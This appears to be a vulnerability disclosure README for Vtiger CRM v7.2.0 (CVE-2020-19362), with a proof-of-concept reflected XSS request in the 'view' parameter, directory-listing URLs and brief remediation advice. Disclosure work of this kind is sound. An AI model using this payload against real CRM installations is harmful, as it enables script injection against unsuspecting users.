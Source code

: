 # Vtiger-CRM-Vulnerabilities
Vtiger CRM v7.2.0 has Cross-Site Scripting (XSS) and directory listing vulnerabilities.

# CVE-2020-19362
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-19362

## Vtiger CRM Reflected XSS Vulnerability
Reflected XSS in the [Vtiger CRM v7.2.0](https://www.vtiger.com/open-source-crm/download-open-source/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

### PoC
To exploit vulnerability, someone could use a GET request to **'http://[server]//vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E'** by manipulating **'view'** parameter in the request header to impact users who open a maliciously crafted link or third-party web page.


```
GET /vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E HTTP/1.1
Host: 172.16.155.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=nc32t8env2h236vf3s6ftor3im
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_01.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_03.png)

## Vtiger CRM Directory Listing Vulnerabilities

### PoC

```
http://[server]/vtigercrm/libraries/
http://[server]/vtigercrm/layouts/
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_01.png)


## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
